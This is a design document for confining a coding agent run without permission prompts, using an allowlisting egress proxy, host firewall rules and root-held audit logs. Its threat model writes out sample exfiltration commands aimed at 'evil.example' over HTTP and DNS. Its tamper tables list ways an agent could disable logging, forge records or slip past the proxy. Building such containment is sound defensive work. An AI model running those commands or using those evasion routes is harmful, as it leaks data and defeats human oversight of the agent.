


# Design overview: restricted egress and audit logging for coding agents

Status: Implemented (initial version)

High-level design for running Claude Code with
`--dangerously-skip-permissions` while bounding what it can reach on the
network and keeping a record of what it did that it cannot alter. It assumes
familiarity with nftables, systemd, auditd, PAM, libvirt, vsock, journald,
and TLS. Mechanics and formats are in [implementation.md](implementation.md);
the underlying concepts are explained in [background.md](background.md). The
code is in [`agent-egress/`](../../agent-egress/),
[`agent-audit/`](../../agent-audit/), and [`agent-logs/`](../../agent-logs/),
each with a README for installation and operation.

## Problem and goals

`--dangerously-skip-permissions` lets Claude Code run every command and edit
without asking, so a mistake or a prompt injection (from a web page, issue,
or dependency the agent read) executes with the full rights of the agent's
Unix account. This design adds two things around the agent:

1. **Restricted egress.** The agent reaches the internet only through an
   allowlisting HTTPS proxy on the host; the host firewall drops everything
   else, including DNS.
2. **Audit logging.** Every Claude Code session, on the host or in a VM,
   produces structured records of prompts, tool calls, process executions,
   network decisions, and transcripts. A root process takes them off the
   agent's machine as they are produced and stores them on the host, where a
   CLI rebuilds per-session timelines and checks them for tampering.

Governing principle: **a control is only as strong as the least-privileged
party that can turn it off.** Anything the agent's account can write,
including a Claude Code binary it owns, is advisory. Enforcement and log
storage belong to root or to the host.

### Goals

- **G1.** Agents open connections only to listed internet hosts. Every proxy
  decision is logged; direct attempts are dropped, counted, and logged at a
  capped rate.
- **G2.** Every session, including subagents, yields a queryable record of
  what it did, and kernel exec records are tied to it by an identifier the
  agent cannot forge.
- **G3.** Nothing running as the agent can change network policy, the Claude
  Code policy or binary, or records a root process has received.
- **G4.** One mechanism covers agents on the host and in any number of VMs.
- **G5.** Stock distribution packages plus small, readable programs
  (Python standard library and shell). No heavyweight agents or SaaS.

### Non-goals and accepted residual risks

- **VM escape and kernel exploits** are out of scope.
- **Exfiltration through allowed destinations.** An allowlisted
  `github.com` accepts pushes and gists; an allowlisted `api.anthropic.com`
  accepts direct API calls with the agent's own credentials, including
  server-side tools such as web fetch. Scoped credentials reduce this and
  proxy logs make it visible; nothing here eliminates it.
- **`Host`-header fronting on shared CDNs.** The proxy checks the TLS SNI but
  cannot see the HTTP `Host` header inside TLS. Prefer local package mirrors.
- **Damage to the agent's own workspace** (snapshots and git handle that).
- **TLS interception.** Traffic is never decrypted.

## Prerequisites

The framework targets **Ubuntu 26.04 or later, or the Debian release with
equivalent package versions**, on the host and in every agent VM:

| Need | Packages / settings |
|---|---|
| Firewall, services | `nftables`, systemd (developed against Ubuntu 26.04's systemd 259; older releases are untested) |
| Kernel audit | `auditd` (the installer adds it if missing), Yama `ptrace_scope` ≥ 1 |
| VMs (recommended) | `libvirt-daemon-system`, `qemu-kvm`, the `vhost_vsock` module |
| Programs | `python3` ≥ 3.12 |
| Claude Code | ≥ 2.1.295 (hook `onFailure`); verified with 2.1.312 |
| Accounts | an admin account with `sudo` (and the `libvirt` group for VMs); the agent account, `agent` by default, without `sudo`, on the host and in each VM |

Some components still assume the name `agent`; see
[implementation.md](implementation.md#repository-layout-and-install-paths).

## Threat model

The adversary is **the agent itself**, running as an unprivileged UID in its
environment (the host or a VM). It can run any program, read and write
whatever that UID can (including its own dotfiles and Claude Code settings),
start processes that outlive its session, and open any socket the kernel,
firewall, and file permissions allow. It does not have root, `sudo`, or any
capability, and it cannot change kernel state such as its audit session ID.

| Threat | Example | Mitigation |
|---|---|---|
| Exfiltration over arbitrary paths | `curl -d @secret https://evil.example` | Proxy allowlist + default-drop firewall |
| Exfiltration over DNS | `dig $(base64 secret).evil.example`, or the resolver's D-Bus API | VM: no DNS server at all. Host: resolver sockets hidden from `agent-run` units |
| Domain fronting | `CONNECT registry.npmjs.org:443`, then TLS for another site on the CDN | SNI must equal the `CONNECT` host |
| DNS rebinding / internal pivot | Allowlisted name resolving to `127.0.0.1`; an admin's dev server that fetches URLs | Proxy refuses non-global addresses; loopback limited to proxy and a dev-port range |
| Disabling its own logging | Edit `~/.claude/settings.json`; patch or replace the binary; `CLAUDE_CODE_SHELL_PREFIX` | Hooks only in root-owned managed settings, with the relevant keys pinned; root-owned binary |
| Starving the pipeline | Flood journald; fill the disk | Hook records bypass journald with a synchronous `fsync` ack; quotas; fail-closed `PreToolUse` |
| Tampering after the fact | Delete or rewrite records | Taken by root as produced; stored on the host where the agent has no access |
| Forging records | Write fake hook records; post fake records over vsock | Kernel-attested peer identity; transport-authenticated environment; audit-backed origin check |
| Hiding from tool-level logs | Background daemon; a second, unhooked API client | auditd logs every `execve` by the agent UID, tagged with the run's audit session |
| Misusing readable credentials | Full-scope GitHub token | Narrow per-task tokens; optional model gateway (future) |

## Trust boundaries

"Root in the agent's environment" is host root for host agents and VM root
for VM agents. A compromised VM root makes only that VM's *future* records
untrustworthy: host firewall rules, records already shipped, and the
host-assigned identity of the VM (vsock CID, nwfilter-pinned IP) stay
intact.

## Architecture

Host firewall rules (not drawn) drop every other path out of both agent
environments.

| Component | Runs on | Role |
|---|---|---|
| `agent-egress-proxy` | host | Allowlisting CONNECT/HTTP proxy with SNI check; JSON decision log |
| `agent_egress` / `agent_vmnet` nft tables | host | Drop the agent UID's traffic except to the proxy; confine the VM bridge |
| `agent-net` libvirt network | host | Isolated bridge: no forwarding, no DNS, static leases, port isolation |
| Managed settings drop-ins | each env | Proxy variables, hooks, pinned environment variables |
| `claude-audit-hook` | each env | Hands each hook event to the collector; waits for a durable ack |
| `agent-run` | each env | Starts each session as a hardened system unit with its own audit session |
| auditd rules | each env | Exec by the agent UID, unusual socket families, secret reads, policy writes |
| `agent-log-shipper` | each env | Hook collector + journald/audit/transcript readers; forwards to the host |
| `agent-logd` | host | Authenticates senders by transport; per-environment JSONL store with quotas |
| `agent-log` | host | Sessions, timelines, network decisions, process trees, `verify` |

## Key design decisions

### Root-owned Claude Code pinned by managed settings

Hooks and environment policy live in drop-ins under
`/etc/claude-code/managed-settings.d/`, which outrank every user, project,
and `--settings` source. They are effective only because root owns them and
the binary that reads them: Claude Code is installed as
`/opt/claude-code/<version>/claude` with auto-update disabled, and
`agent-run` refuses a `/usr/local/bin/claude` that is not a symlink to that
store. Every setting that would let a lower-precedence file disable or
bypass hooks is pinned, including empty loader and shell-injection variables
and `CLAUDE_CODE_SHELL_PREFIX`, which Claude Code also applies to hook
commands. Yama `ptrace_scope` ≥ 1 stops tool processes from patching their
parent `claude` in memory.

### Hooks to a root collector, with fail-closed PreToolUse

Hook records do not go through journald, which silently rate-limits. The
hook sends each event over a Unix socket to a root collector, which reads the
peer's `SO_PEERCRED` and `/proc` entries while the hook blocks, appends the
record with that kernel-attested `observed` context to a local spool, calls
`fsync`, and only then replies `ok`. `PreToolUse` uses
`"onFailure": "block"`, so **no tool call runs without a stored record**; a
broken pipeline shows up as failing tool calls rather than a silent gap.
Other events fail open, because blocking them protects nothing. Ancestry
alone can be forged (a Bash tool call can `exec /bin/sh -c <hook>`), so the
query side cross-checks the hook's parent shell against auditd exec records.

### System-unit launcher with a PAM audit session

`sudo agent-run` starts each session with `systemd-run` as a transient
*system* unit running as the agent. The root-owned cgroup cannot be left
from inside, and the default `KillMode=control-group` reaps leftover daemons
when `claude` exits. Unit properties add `IPAddressDeny`,
`RestrictAddressFamilies` (no vsock or packet sockets; 32-bit ABI and
io_uring blocked so it cannot be sidestepped), `NoNewPrivileges`,
and on the host hide the socket directories of daemons that would act for
the agent (resolver, D-Bus, avahi, cups). `PAMName=agent-run` runs only `pam_loginuid`, which
gives the run a fresh audit session ID (`ses`) that every descendant
inherits and the agent cannot change. `pam_systemd` is deliberately absent:
it would move the process into a logind scope outside the unit.

### Explicit proxy with allowlist, SNI check, pinned address, no DNS

Clients use `HTTPS_PROXY`; tools that ignore it fail, because the firewall
drops direct traffic. The proxy accepts `CONNECT host:443` and plain
`GET`/`HEAD` on port 80 to listed names only, rejects IP literals, and
resolves names itself. It refuses any name with a non-global address (after
unwrapping IPv4-in-IPv6 forms) and connects to the exact address it checked,
so a second resolution cannot differ. For `CONNECT` it reads the TLS
ClientHello before contacting the upstream and requires SNI to equal the
`CONNECT` host and no ECH extension, which closes TLS-level domain fronting.
Clients never resolve names (`CLAUDE_CODE_PROXY_RESOLVES_HOSTS=1`), so the
agent environments need no DNS. The proxy is about 840 lines of
standard-library Python (see [alternatives](#alternatives-considered)).

### Isolated libvirt network, nwfilter, and host nftables

VMs attach only to `agent-net`: no `<forward>` (no route or NAT), DNS
disabled, DHCP only for static leases, and ports isolated from each other.
The `clean-traffic` nwfilter stops MAC and IP spoofing, so the proxy and the
OTLP receiver can identify a VM by source address. A host nft table limits
what the bridge can reach on the host (DHCP plus ports 3128 and 4318 on
`192.168.123.1`) and drops any forwarding to or from it. Host agents get a
per-UID `output` table (`meta skuid`) that allows only the proxy, the OTLP
port, and a loopback dev-port range. Both tables only add drops; they can
never override another firewall's drop.

### vsock transport authenticated by privileged source port

VM shippers send to the host over `AF_VSOCK`, which bypasses the network
stack and firewall policy entirely. `agent-logd` takes the environment name
from the peer's CID (pinned in the domain XML and listed in
`/etc/agent-tools/envs.conf`) and accepts only source ports ≤ 1023, which an
unprivileged process inside the VM cannot bind. The stored `env` field is
always the receiver's own value, so a VM can only write records labeled as
itself. The host's own shipper uses a root-only Unix socket. A host process
reaches host vsock listeners as CID 1, which `agent-logd` rejects, so a host
agent cannot pose as a VM; `agent-run` units also refuse `AF_VSOCK` in
`socket(2)`.

### Central host store and query-time correlation

`agent-logd` appends every record to
`/var/log/agent-audit/<env>/<date>.jsonl` and calls `fsync` before
acknowledging, under a per-day quota, in a directory the agent cannot read. There is no database: delivery
is at-least-once and `agent-log` removes duplicates and correlates at query
time. Exec records join a session exactly on `(env, boot_id, ses)` within
its time window; proxy decisions join by the client environment and time,
which is exact only with one active session per environment.

### Credentials and optional layers

Network policy cannot limit what the agent does with a credential for an
*allowed* service, so credentials are scoped instead: fine-grained GitHub
tokens for the task's repositories in the agent's own config (never the
administrator's), and no long-lived cloud or SSH keys in its home (reads of
`~/.ssh` are audited). A future model gateway on the host, pinned via managed
`ANTHROPIC_BASE_URL`, would record all model traffic outside the agent's
reach and could strip server-side tools; only in API-key mode can it keep
the credential from the agent. Claude Code's own bubblewrap sandbox can be
enabled as defense in depth against accidents; nothing here depends on it.

## Host agents and VM agents

VMs are the recommended configuration; treat host agents, a hardened but
weaker mode, as a convenience for low-risk tasks:

| Aspect | VM agent | Host agent |
|---|---|---|
| DNS | No resolver configured, no DNS server on the network | Resolver sockets hidden only inside `agent-run` units |
| Sessions not started by `agent-run` (e.g. SSH as the agent) | Still no route out but the proxy | Only the per-UID nft table; resolver over D-Bus still reachable |
| Abstract Unix sockets, snapd | Inside the VM only | Shared with the host (snapd can be masked) |
| Loopback services | Separate loopback | Admin's services in the dev-port range are reachable |
| Daemon restarts | n/a | A directory hidden by `InaccessiblePaths` that its daemon recreates can reappear in running sessions |
| Resources | Isolated | Shared CPU, memory, and disk |
| Root compromise | Affects only that VM's future records | Affects everything |

## Tamper and failure analysis

| Scenario | Effect | Detection or mitigation |
|---|---|---|
| Agent edits user or project settings (hooks, `LD_PRELOAD`, `CLAUDE_CODE_SHELL_PREFIX`, `disableAllHooks`) | No effect: managed keys win | `ConfigChange` hook record |
| Tool patches the running `claude` | Blocked by Yama | `agent-run` refuses to start if `ptrace_scope` is 0 |
| Agent runs its own, possibly patched `claude` | Hooks may not fire | auditd exec; `verify` flags `claude` executed outside `/opt/claude-code/` |
| Agent runs the hook itself to forge records | Fake hook records stored | The forging command is itself a hooked, audited tool call; `verify` checks the parent shell's exec history |
| Agent kills `claude` | Session ends | Missing `SessionEnd` |
| Agent floods journald | journald drops entries, not hook records | Suppression notices are shipped |
| Agent floods the hook socket or fills the disk | Spool cap reached; `PreToolUse` blocks | Tool calls fail visibly |
| Agent rewrites a transcript before it is read | Transcript differs | Transcripts are labeled claims; `transcript-rewritten` |
| Agent bypasses the proxy, tunnels DNS, or tries fronting | Dropped or denied | Kernel drop log and counters; proxy log (`sni-mismatch`, `non-global-address`) |
| Host agent binds 3128 (or 4318) during a restart | Impossible: systemd socket units hold the ports (4318 only with the OTLP receiver enabled) | — |
| Host agent forges VM records over vsock | Rejected: CID 1 (and `AF_VSOCK` refused in `agent-run`) | `agent-logd` rejection log |
| VM agent connects to `agent-logd` | Rejected: unprivileged source port | Rejection log; `agent-socket` audit record |
| `/var/log/audit` fills | auditd suspends | Shipper raises `audit-degraded`; `agent-run` refuses new sessions |
| `agent-logd` down | Shipper buffers and resumes from cursors | Loss only if local rotation overtakes the outage |
| Firewall rules removed (needs root) | Host-agent egress open | `NETFILTER_CFG` audit record; `agent-run` refuses to start without the table |

## Rollout

| Phase | Deliverable | Value on its own |
|---|---|---|
| 1 | `agent-audit` (root-owned Claude Code, managed hooks, `agent-run`, audit rules) + shipper in local mode | A record that survives settings edits, kept on the machine |
| 2 | Shipper transport, `agent-logd`, `agent-log` | Off-box, queryable store; `verify` |
| 3 | `agent-egress`: proxy, nftables, isolated VM network, VM config | Network allowlist enforced outside the agent |
| 4 | OTLP receiver | Model, token, and cost data per session |
| Future | Model gateway; exact egress attribution for concurrent host sessions; eBPF file and connect tracing; retiring [`agent-sandbox`](../../agent-sandbox/) | |

Phases 1–4 are implemented; install order is in the component READMEs.

## Alternatives considered

| Option | Why not (now) |
|---|---|
| Squid | SNI-equals-`CONNECT` needs SSL-bump peek/splice; non-JSON logs; large configuration |
| Transparent proxy (redirect 443, read SNI) | Covers proxy-unaware tools, but more moving parts; explicit proxy plus default drop fails closed |
| DNS allowlist | IP literals still connect; DNS remains a tunnel. No DNS is stronger |
| Hooks writing to journald | Silently rate- and size-limited, so fail-closed cannot be guaranteed |
| Vector, OTel Collector, Fluent Bit | Large dependencies; none provides the peer-inspecting hook collector. `agent-logd` can forward to one later |
| eBPF (Tetragon, Falco) | Richer events, heavier to operate; auditd plus audit sessions covers exec tracking. Good future upgrade |
| gVisor or Firecracker per session | Stronger per-run isolation; the VM already provides a kernel boundary |
| Logs over the VM network | More open ports on the isolated bridge; couples logging to firewall policy |
| `systemd-run --user --scope` | Agent-owned cgroup subtree, needs a user manager, no new `ses` |
| Only Claude Code's own sandbox | Configured and enforced by the process being contained; usable as an inner layer |

## Open questions

1. **Authentication mode.** API key or subscription (OAuth)? Only API-key
   mode lets a future model gateway keep the credential away from the agent.
2. **Retention.** Keep the store indefinitely, or rotate and archive after N
   days? Nothing rotates it yet.
3. **Host agents long-term.** Keep the hardened host mode, or require VMs
   once the VM workflow is comfortable?
4. **Launch ergonomics.** Would a narrowly scoped sudoers or polkit rule for
   `agent-run` (no policy-changing arguments) be acceptable?
